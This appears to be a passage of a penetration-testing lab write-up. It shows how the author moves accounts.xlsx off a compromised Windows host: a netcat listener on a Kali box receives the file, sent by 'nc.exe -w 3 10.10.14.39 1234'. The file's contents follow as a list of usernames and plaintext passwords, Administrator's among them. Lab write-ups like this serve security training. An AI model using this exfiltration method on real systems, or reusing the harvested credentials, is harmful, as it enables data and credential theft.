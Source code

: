 Identifed `accounts.xlsx`
![[Pasted image 20240507164547.png]]
Opened a `nc` listener on `gobots` to receive the `.xlsx`
```bash
┌──(kali㉿gobots)-[07May2024 20:05:30]-[~/SUT/10.10.110.213]                                                                                                          
└─$ nc -l -p 1234 > accounts.xlsx  
```
![[Pasted image 20240507164909.png]]
used `copy nc.exe C:\Users\alida\Documents\` top make it easy to netcat the file over 
```bash
C:\Users\alida\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DB19-8C12

 Directory of C:\Users\alida\Documents

05/07/2024  01:07 PM    <DIR>          .
05/07/2024  01:07 PM    <DIR>          ..
04/09/2021  06:07 AM             8,216 accounts.xlsx
05/07/2024  09:37 AM            59,392 nc.exe
               2 File(s)         67,608 bytes
               2 Dir(s)   8,806,199,296 bytes free

C:\Users\alida\Documents>nc.exe -w 3 10.10.14.39 1234 < accounts.xlsx
nc.exe -w 3 10.10.14.39 1234 < accounts.xlsx

```
nc.exe send from victim
```bash
C:\Users\alida\Documents>nc.exe -w 3 10.10.14.39 1234 < accounts.xlsx
```
![[Pasted image 20240507165100.png]]
Successfully pulled over `accounts.xlsx`
```bash
┌──(kali㉿gobots)-[07May2024 20:05:30]-[~/SUT/10.10.110.213]                                                                                                                                                
└─$ nc -l -p 1234 > accounts.xlsx                                                                                                                                                                          
┌──(kali㉿gobots)-[07May2024 20:07:53]-[~/SUT/10.10.110.213]                                                                                       
└─$ ls                                                                                                                                                               accounts.xlsx 
```
Open the file with `libre` on the linux machine to show passwords

![[Pasted image 20240507165752.png]]

```bash

Username	Password
ray	IJA8s8c77s
Administrator	xK3wdk532r
Ela	sowi3$$#ee
Sage	lasp:2123#
```